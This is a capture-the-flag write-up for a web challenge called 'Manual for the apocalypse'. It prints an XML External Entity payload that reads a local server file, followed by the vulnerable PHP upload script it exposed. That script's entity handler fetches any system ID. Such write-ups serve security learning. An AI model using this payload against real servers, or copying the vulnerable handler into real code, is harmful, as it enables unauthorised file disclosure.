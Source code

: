 ```yaml
---
title: "Manual for the apocalypse"
layout: page
---
```


- Stopping the apocalypse part 2
- easy

ACME Inc? Anti-apocalypse machines?

That sounds interesting, maybe you could get the manual for the machine that could help you understand how it works and build your own. The wastes could be saved. Time to get the manual.

As you proceed to fetch the manual for the machine you wandered into the headquarters of ACME Inc. There you find a machine that handles the manuals for their products. Unfortunately, it asks for a license number, but you don't have that. But you need to get that manual. DO YOUR THING!

[https://manual-for-the-apocalypse.secchallenge.crysys.hu](https://manual-for-the-apocalypse.secchallenge.crysys.hu)

_author: Pepe_

## Writeup

The page asks to upload an XML license file with an entity named `licenseNumber`. 

XML reminds me of XML External entities attack witch I've heard of before, so I've tried that. 

After a few tries I was able to dump the upload script:
```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE licenseNumber [  
  <!ELEMENT licenseNumber ANY >
  <!ENTITY licenseNumber SYSTEM "file:///var/www/html/upload.php" >]>
<licenseNumber>l="&licenseNumber;"</licenseNumber>
```

```php
<?php

$licenseNumber = null;

if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
    header($_SERVER["SERVER_PROTOCOL"]." 405 Method Not Allowed", true, 405);
    exit();
}

$parser=xml_parser_create();

function char($parser,$data) {
    echo $data;
}

function ext_ent_handler($parser,$ent,$base,$sysID,$pubID)  {
    global $licenseNumber;
    if ($ent === 'licenseNumber') {
        $licenseNumber = file_get_contents($sysID);
    }
}

// Set the character data handler
xml_set_character_data_handler($parser,"char");

// Set the external entity reference handler
xml_set_external_entity_ref_handler($parser, "ext_ent_handler");

$data = file_get_contents($_FILES["file"]["tmp_name"]);
$flag = file_get_contents("very_secret_hidden_folder_[removed_that_so_you_wont_get_the_flag_for_free]/flag");

xml_parse($parser,$data);
xml_parser_free($parser);

if ($licenseNumber === null) {
    $message = "No entity named licenseNumber in your file.";
}
else if ($licenseNumber === "gsYUhmeBg4bSNsNAf6bHYmOZmaViO9GTgApGlxFkUJC4O1NVdU1y4eOSOm9TjPjAdy38KUdgmTaAgoFH4mfhsuQIFv64UMb872pVscQgCNgSgpIFOzgQWYzy17CwCEmq") {
    $message = "Your license number is: \n$licenseNumber. \nThis is a valid license here is your flag. $flag";
}
else {
    $message = "Your license number is: \n$licenseNumber\n. This is an invalid license please submit a valid one for the manuals.";
}

$message = base64_encode($message);
echo $message;
```

Well that is easy from now. I could make a "valid" license number, or use the now known path to read the flag, but the simplest solution was just navigating to `https://manual-for-the-apocalypse.secchallenge.crysys.hu/very_secret_hidden_folder_[removed_that_so_you_wont_get_the_flag_for_free]/flag` and read it from there.
